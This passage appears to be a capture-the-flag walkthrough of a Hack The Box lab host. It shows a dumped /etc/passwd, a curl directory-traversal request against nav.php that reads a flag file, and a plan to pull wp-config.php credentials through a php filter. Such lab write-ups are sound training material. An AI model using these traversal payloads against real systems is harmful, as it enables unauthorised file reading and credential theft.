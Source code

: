This host's name is `NIX02`.

/etc/passwd :

```text
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 

<SNIP>

frank:x:1000:1000:frank,,,:/home/frank:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin margaret:x:1001:1001::/home/margaret:/bin/lshell
mysql:x:126:133:MySQL Server,,,:/nonexistent:/bin/false sshd:x:127:65534::/run/sshd:/usr/sbin/nologin omi:x:998:997::/home/omi:/bin/false omsagent:x:997:998:OMS agent:/var/opt/microsoft/omsagent/run:/bin/bash nxautomation:x:996:995:nxOMSAutomation:/home/nxautomation/run:/bin/bash 
```

There are several normal users with shell identified : `frank`, `agent`, `nxautomation`
Also, `margaret` might be useful while it has different kind of shell : `/bin/lshell`

If I can read `access.log` this can be led to `LFI2RCE` vulnerability.
However, it doesn't work since I can't read `/var/log/apache2/access.log`.

I ran `nikto` and `gobuster` to scan thoroughly, but none of these found anything useful.

I checked if there's a flag in any user's home directory, and found out that there's a flag in `margaret`'s home directory.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl 172.16.1.10/nav.php?page=../../../../../../../home/margaret/flag.txt
DANTE{LF1_M@K3s_u5_lol}
```

Recall the note found on smb share "Remove wordpress install from web root - PENDING",
my guess is that there is a wordpress webroot is installed on web root (mostly `/var/www/html`).
The most go-to file usually contains critical information is `wp-config.php` file.

Since current webserver doesn't seem to be running on wordpress, `wp-config.php` might be located like the following;

```
└── /var/www/html
    ├── current_webroot_don't_know_what_the_name_is
    │   ├── nav.php
    │   └── index.html
    │  .............
    └── wordpress
        ├── wp-config.php
       .............
```

I tried several times, and found out that I can access `wp-config.php` file via `../wordpress/wp-config.php` path.
Also, I need to use php-filter to read the file since `php` code is not naively displayed on browser.

